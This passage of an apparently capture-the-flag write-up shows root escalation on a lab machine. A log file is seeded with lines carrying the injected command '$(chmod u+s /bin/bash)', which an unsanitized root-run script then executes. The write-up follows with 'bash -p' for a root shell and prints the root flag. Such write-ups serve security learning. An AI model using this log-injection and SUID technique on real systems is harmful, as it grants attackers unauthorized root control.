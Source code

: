 ```shell
miranda-wise@eureka:/var/www/web/user-management-service/log$ mv a.log application.log
mv: replace 'application.log', overriding mode 0664 (rw-rw-r--)? y
```

```shell
miranda-wise@eureka:/var/www/web/user-management-service/log$ cat application.log
2025-04-27 18:00:00 INFO LoginSuccessLogger: '$(chmod u+s /bin/bash)'
2025-04-27 18:00:00 INFO LoginSuccessLogger: '$(chmod u+s /bin/bash)'
2025-04-27 18:00:00 INFO LoginSuccessLogger: '$(chmod u+s /bin/bash)'
2025-04-27 18:00:00 INFO LoginSuccessLogger: '$(chmod u+s /bin/bash)'
```

Later in `display_results`, the script did this:

- `${!successful_users[@]}` iterated over **the keys** of the associative array.
- `$user` hold the string `$(chmod u+s /bin/bash)`.
- Then **this key** was printed using `printf` in Bash **without escaping or sanitization**.

Now, even though it was inside `printf`, **bash expanded variables before calling `printf`**.

And we got the `SUID` bit set on `/bin/bash` as expected.

```shell
miranda-wise@eureka:/var/www/web/user-management-service/log$ ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.2M Apr 18  2022 /bin/bash
```

```shell
miranda-wise@eureka:/var/www/web/user-management-service/log$ /bin/bash -p
bash-5.0#
```

## root.txt

```shell
bash-5.0# cat /root/root.txt
8f0072f942f13ca12e41fbe9706388b1
```
